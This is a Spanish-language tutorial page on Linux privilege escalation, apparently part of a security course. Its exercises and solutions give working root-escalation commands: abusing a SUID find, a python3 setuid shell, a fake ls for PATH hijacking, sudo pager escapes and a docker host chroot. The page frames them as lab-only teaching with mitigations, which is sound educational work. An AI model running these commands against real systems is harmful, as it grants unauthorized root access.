

# Linux avanzado y escalada de privilegios

Cuando ya tienes acceso a un Linux como usuario **sin privilegios** (`www-data`, `apache`, un usuario
normal…), el siguiente objetivo suele ser **convertirte en `root`**. Eso es la **escalada de
privilegios** (`privilege escalation`, o `privesc`). Esta página repasa los vectores más comunes y las
herramientas que se usan **en laboratorio propio**.

!!! danger "Uso ético y legal"
    La escalada de privilegios solo se practica **en tu laboratorio** o en plataformas que lo autorizan
    por escrito (TryHackMe, Hack The Box, máquinas de VulnHub…). Ejecutarlo contra un sistema que no es
    tuyo es un delito, aunque "solo mires". Antes de empezar, repasa
    [Ética y legalidad](../nivel-1-principiante/00-etica-y-legalidad.md).

## Objetivos de aprendizaje

Al terminar esta página sabrás:

- Interpretar permisos avanzados: **SUID**, **SGID** y **sticky bit**.
- Detectar y explotar los vectores de `privesc` más habituales en Linux.
- Entender por qué el `PATH`, los `cron` y las `capabilities` son minas de oro para un atacante.
- Usar `find`, `sudo -l`, `pspy` y `linpeas` **para enumerar tu propio sistema**.
- Escribir un mini-informe de escalada con la evidencia del vector usado.

**Tiempo estimado:** 120–180 min de lectura y práctica.

## Requisitos previos

- **[Linux · usuarios y permisos](../nivel-1-principiante/03-sistemas-operativos/02-linux-usuarios-y-permisos.md)**:
  `ls -l`, `chmod`, `chown`, bits SUID/SGID/sticky.
- **[Linux · procesos, servicios y logs](../nivel-1-principiante/03-sistemas-operativos/03-linux-procesos-servicios-y-logs.md)**:
  `ps`, `systemctl`, `journalctl`.
- Tener montado el **[laboratorio de red virtual](../nivel-1-principiante/03-sistemas-operativos/07-laboratorio-red-virtual.md)**
  con una máquina objetivo (por ejemplo, una VM vulnerable para practicar).

## Explicación

### Recordatorio: leer una línea de `ls -l`

```text
-rwsr-xr-x 1 root root 68232 ene 10 12:00 /usr/bin/passwd
 ^^^
 |||
 ||+-- otros: r-x (leer y ejecutar)
 |+--- grupo: r-x
 +---- dueño: rws  <-- la 's' en el bit de ejecución = SUID
```

- El tercer carácter del bloque del **dueño** es `s` → **SUID**. Significa que el programa se ejecuta
  con los permisos de su dueño (normalmente `root`), no con los tuyos.
- Si aparece `s` en el bloque del **grupo** → **SGID**: se ejecuta con el grupo del fichero.
- Si hay `t` al final (bloque de otros) → **sticky bit** (típico en `/tmp`): solo el dueño puede borrar
  sus ficheros.



### SUID / SGID: el rey de los vectores

Un binario con SUID `root` se ejecuta como `root`. Si el binario, además, **deja ejecutar otros
programas** o leer ficheros arbitrarios, la escalada es trivial.

**Enumerar todos los SUID del sistema:**

```bash
find / -perm -4000 -type f 2>/dev/null
```

- `-perm -4000` filtra por el bit SUID activado.
- `-type f` solo ficheros.
- `2>/dev/null` silencia los "Permission denied".

**Enumerar SGID:**

```bash
find / -perm -2000 -type f 2>/dev/null
```

Una vez tienes la lista, el trabajo es comparar cada binario con la lista de binarios "abusables"
conocidos (GTFOBins). Un ejemplo clásico: si `vim` tuviera SUID, podrías ejecutar `:!sh` dentro y salir.
Otro ejemplo: un `find` con SUID permite `find . -exec /bin/sh -p \; -quit`.

!!! warning "GTFOBins y por qué NO se copia aquí la lista"
    Existe una web colaborativa, [GTFOBins](https://gtfobins.github.io), que documenta cómo abusar de
    binarios del sistema. Es **material de consulta**, no la copies en masa: aprende el patrón y
    consúltala caso por caso. Enlázala como referencia, no como recetario automático.

### Cron jobs: tareas programadas que corren como root

El demonio `cron` ejecuta tareas según `/etc/crontab`, `/etc/cron.d/*` y los `crontab` de cada usuario.
El problema aparece cuando el **script** o el **directorio** de la tarea es escribible por un usuario sin
privilegios.

```bash
cat /etc/crontab
ls -la /etc/cron.d/ /etc/cron.daily/ /etc/cron.hourly/
crontab -l          # tareas del usuario actual
sudo crontab -l     # tareas de root (si tienes permiso)
```

Vectores típicos:

| Situación | Por qué es explotable |
| --- | --- |
| Un script de `cron` es escribible por ti | Modificas el script y esperas: se ejecuta como root. |
| `cron` llama a un binario sin ruta absoluta (`backup` en vez de `/usr/local/bin/backup`) | Lo secuestras vía `PATH`. |
| Un directorio del script es escribible | Colocas tu propio `tar`/`gzip` para que se use el tuyo. |
| `cron` usa comodines (`tar czf backup.tgz *`) | Técnica del *wildcard*: creas ficheros con nombre de opción (`--checkpoint-action`). |

**Cómo detectar tareas que aparecen de forma intermitente** (cuando no tienes permiso para leer los
`crontab`): se usa `pspy`, que observa la lista de procesos sin necesitar root. Es una herramienta
externa de laboratorio; instálala solo en tu VM de práctica.

### Capabilities: permisos granulares

En vez de dar SUID completo (`todo root`), Linux permite conceder **capacidades** concretas a un binario.
El problema es que algunas son casi equivalentes a ser root:

```bash
getcap -r / 2>/dev/null
```

Salida de ejemplo (salida de ejemplo):

```text
/usr/bin/python3.11 = cap_setuid+ep
/usr/bin/ping = cap_net_raw+ep
```

`cap_setuid` permite cambiar el UID del proceso → con `python3` puedes saltar a root directamente:

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

`cap_net_raw` (el caso de `ping`) es mucho menos grave: solo permite abrir sockets RAW.

| Capability | Riesgo | Comentario |
| --- | --- | --- |
| `cap_setuid` / `cap_setgid` | Muy alto | Equivale a suplantar usuarios. |
| `cap_dac_read_search` | Alto | Leer ficheros saltándose permisos (incluido `/etc/shadow`). |
| `cap_sys_admin` | Muy alto | Montajes, namespaces… camino a root. |
| `cap_net_raw` | Medio | Sniffing / paquetes crudos. |
| `cap_chown` | Alto | Cambiar el dueño de ficheros. |

### PATH hijacking

Si un script con SUID o una tarea de `cron` llama a un programa **sin ruta absoluta**, el sistema lo
busca en las carpetas de la variable `PATH`, **en orden**. Si un directorio escribible del `PATH` va
antes que `/usr/bin`, colocas ahí tu binario malicioso con el mismo nombre.

```bash
echo $PATH
# ejemplo: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Si el script hace simplemente `ls` y el directorio actual (`.`) o un directorio tuyo está antes en el
`PATH`, creas un `ls` falso:

```bash
# NUNCA hacer esto fuera de un laboratorio propio
printf '#!/bin/bash\n/bin/bash -p\n' > ls
chmod +x ls
export PATH=.:$PATH    # solo en la sesión de práctica
```

Cuando el script privilegiado ejecute `ls`, en realidad ejecutará tu shell.

!!! warning "`/etc/ld.so.preload` y `LD_PRELOAD`"
    Las **variables de entorno** como `LD_PRELOAD` permiten inyectar una librería en un binario. Por
    seguridad, el cargador las **ignora** en binarios SUID (`secure-execution mode`). No las uses como
    vector genérico: solo funcionan en casos concretos (por ejemplo, si `sudo` está mal configurado y
    conserva el entorno). Es un tema avanzado.

### `sudo` mal configurado

Antes de nada, lista lo que **tú** puedes ejecutar con `sudo`:

```bash
sudo -l
```

Salida de ejemplo (salida de ejemplo):

```text
User www-data may run the following commands on target:
    (root) NOPASSWD: /usr/bin/find
    (root) /bin/journalctl
```

- `NOPASSWD` → no pide contraseña. Combinado con un binario abusable (`find`, `vim`, `less`, `tar`…),
  es root directo.
- `(root) /bin/journalctl` → `journalctl` tiene un paginador (`less`); dentro puedes pedir `!/bin/sh`.

Comprueba siempre **cada binario** de `sudo -l` contra GTFOBins.

### Otros vectores que conviene conocer

| Vector | Idea |
| --- | --- |
| `/etc/passwd` escribible | Tienes hash propio en `/etc/shadow` o añades usuario con shell. |
| Servicios internos (`127.0.0.1:8080`) | Un panel o API local vulnerable ejecutado como root. |
| Ficheros de configuración con credenciales | `.bash_history`, `.git-credentials`, `.env`, `wp-config.php`. |
| Kernel antiguo | Exploits de kernel (`Dirty Pipe`…). Alto riesgo de cuelgue: solo en tu VM. |
| Grupo `docker` | `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` → root dentro del contenedor montado. |
| Grupo `lxd` | Crear contenedor con el filesystem del host montado. |
| Grupos `disk`, `adm`, `video` | Acceso a disco crudo o a logs sensibles. |

Sobre el grupo `docker`:

```bash
# Solo en tu laboratorio. El contenedor comparte el kernel del host.
docker run -v /:/host -it alpine chroot /host /bin/bash
```

### El método: enumerar antes de explotar

Nunca lances exploits "a lo loco". El orden correcto es:

1. **Explorar el sistema** (SO, kernel, arquitectura).
2. **Enumerar** usuarios, permisos, SUID, capabilities, cron, sudo, servicios, red.
3. **Priorizar** el vector con menos riesgo de tumbar el sistema.
4. **Explotar** y **documentar** la evidencia.
5. **Post-explotación**: credenciales, persistencia (en laboratorio), movimiento lateral.

Un script que automatiza el paso 2 es **`linpeas`** (Linux Privilege Escalation Awesome Script). Es
"ruidoso" pero muy completo: recopila el sistema y marca en color los posibles vectores. Se ejecuta
desde un servidor web propio o copiándolo a la máquina con `scp`.

Comparativa de scripts de enumeración:

| Herramienta | Foco | Notas |
| --- | --- | --- |
| `linpeas.sh` | Linux privesc | Muy completo; el más usado. |
| `LinEnum.sh` | Linux privesc | Más ligero y fácil de leer. |
| `pspy` | Procesos/cron | Ver qué corre en segundo plano sin root. |
| `linux-exploit-suggester` | Kernel | Sugiere exploits a partir de la versión. |
| `PEASS-ng` | Multiplataforma | Proyecto paraguas de `linpeas`/`winpeas`. |

## Práctica guiada

Todo se hace **dentro de tu laboratorio**. Usa una VM vulnerable de las que planteas en
[Máquinas objetivo](../nivel-1-principiante/03-sistemas-operativos/08-maquinas-objetivo.md).

### Ejercicio 1 — Enumeración básica del sistema

Obtén SO, kernel, arquitectura y usuario.

??? success "Solución"
    ```bash
    uname -a
    cat /etc/os-release
    id
    hostname
    ```
    Guarda esa información: los exploits de kernel dependen de la **versión exacta**.

### Ejercicio 2 — Encuentra los SUID y su "explotabilidad"

Lista los binarios SUID y responde: ¿alguno de ellos deja salir a shell?

??? success "Solución"
    ```bash
    find / -perm -4000 -type f 2>/dev/null
    ```
    Compara cada resultado con [GTFOBins](https://gtfobins.github.io). Un `find` con SUID se explota así:
    ```bash
    find . -exec /bin/sh -p \; -quit
    ```
    La `-p` conserva los privilegios efectivos (si el binario es SUID, evita que la shell los suelte).

### Ejercicio 3 — Revisa `sudo -l`

Ejecuta `sudo -l` e identifica si hay `NOPASSWD` o binarios con paginador.

??? success "Solución"
    ```bash
    sudo -l
    ```
    Si aparece, por ejemplo, `(root) NOPASSWD: /usr/bin/less /etc/hosts`, entonces:
    ```bash
    sudo less /etc/hosts
    ```
    y dentro del paginador escribes `!/bin/sh`. Busca el patrón en GTFOBins.

### Ejercicio 4 — Auditoría de `cron`

Localiza tareas programadas y comprueba si algún script es escribible por tu usuario.

??? success "Solución"
    ```bash
    cat /etc/crontab
    ls -la /etc/cron.d/ /etc/cron.hourly/ /etc/cron.daily/
    ```
    Si encuentras `-rwxrwxrwx` (o el grupo/otros con `w`) sobre un script que corre como root, ese es tu
    vector. En un laboratorio ético, documenta la ruta y el permiso, y **solo** modifícalo en tu VM.

### Ejercicio 5 — Capabilities peligrosas

Busca capabilities y determina cuáles serían escalables.

??? success "Solución"
    ```bash
    getcap -r / 2>/dev/null
    ```
    `cap_setuid`, `cap_setgid`, `cap_dac_read_search` y `cap_sys_admin` son los más graves. Con
    `cap_setuid` sobre `python3`: `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`.

### Ejercicio 6 — Redacta la evidencia

Escribe en 5 líneas: usuario inicial, vector encontrado, comando usado, usuario final y cómo lo
mitigarías.

??? success "Solución"
    Ejemplo de respuesta:
    ```text
    Usuario inicial: www-data
    Vector: binario /usr/bin/find con bit SUID root
    Comando: find . -exec /bin/sh -p \; -quit
    Usuario final: root (UID 0)
    Mitigación: quitar SUID (chmod u-s) si no es imprescindible, o sustituir por un binario que no
    permita ejecutar comandos; auditar SUID periódicamente.
    ```

## Para ir más allá

- **GTFOBins** — catálogo de binarios abusables. Recomendado. Web, EN, **Gratis**.
  <https://gtfobins.github.io>
- **PEASS-ng (linpeas/winpeas)** — scripts de enumeración. Repositorio, EN, **Gratis**.
  <https://github.com/peass-ng/PEASS-ng>
- **HackTricks — Linux Privilege Escalation** — libro de consulta. Web, EN, **Gratis**.
  <https://book.hacktricks.xyz>
- **TryHackMe — rutas de privesc** — laboratorios guiados, EN, **Freemium**. <https://tryhackme.com>
- **`man` de find, sudo, cron** — documentación local. EN, **Gratis**. <https://man7.org>
- **OverTheWire — Bandit** — práctica de línea de comandos con escalada suave. EN, **Gratis**.
  <https://overthewire.org>

!!! warning "PENDIENTE (TODO-UJACKING)"
    Falta una máquina de práctica con vector de `privesc` **concreto** verificada por el equipo
    (nombre y enlace a VulnHub o TryHackMe) para cerrar la práctica guiada con una resolución completa.
    Quien la seleccione debe confirmar que sigue disponible.

## Siguiente paso

Ahora que entiendes el privesc en Linux, el siguiente salto es el mundo corporativo: los **dominios de
Windows y Active Directory**. Continúa en
**[02 · Windows y Active Directory](02-windows-y-active-directory.md)**.
